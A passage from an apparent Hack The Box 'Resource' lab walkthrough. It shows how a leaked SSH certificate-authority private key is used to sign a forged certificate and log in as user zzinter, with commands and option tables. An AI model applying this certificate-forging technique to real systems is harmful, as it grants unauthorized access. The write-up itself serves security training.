 `ca-itrc` and `ca-itrc.pub` are very likely the private and public keys of a Certificate Authority used for signing certificates, which can include SSH keys or other types of certificates.

![CA files](/images/HTB-Resource/msainristil_files.png)

### Shell as zzinter (on itrc host)

Since we have access to the CA private key, we can create a SSH key to login as `zzinter`. 

1. Create an SSH Key Pair for zzinter.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_zzinter
```

| Command/Options   | Description                                                     |
| ----------------- | --------------------------------------------------------------- |
| ssh-keygen        | Command-line tool used to generate SSH keys.                    |
| -t rsa            | Specifies the type of key to create (RSA key pair in our case). |
| -b 4096           | Bit length, our RSA key will have a length of 4096 bits.        |
| -f id_rsa_zzinter | Specifies the filename.                                          |


![zzinter keys](/images/HTB-Resource/zzinter_keys.png)

2. Create the SSH Certificate for zzinter.

```
ssh-keygen -s ca-itrc -I zzinter_key_id -n zzinter -V +52w id_rsa_zzinter.pub
```

| Command/Options    | Description                                                    |
| ------------------ | -------------------------------------------------------------- |
| -s ca-itrc         | Path to the CA's private key.                                  |
| -I zzinter_key_id  | Unique identifier for the certificate (you can pick any name). |
| -n zzinter         | The principal (user) for which the certificate is valid.       |
| -V +52w            | Sets validity period (52 weeks here).                          |
| id_rsa_zzinter.pub | The public key we are signing.                                 |

![zzinter SSH certificate](/images/HTB-Resource/zzinter_SSH_certificate.png)

3. Login using the SSH key.

```
ssh -i id_rsa_zzinter zzinter@itrc.ssg.htb
```

![zzinter SSH login](/images/HTB-Resource/zzinter_login.png)

Below is the content of `sign_key_api.sh`. It automates the process of submitting a public SSH key to the signing service `signserv.ssg.htb` to generate a signed SSH certificate for a given user.
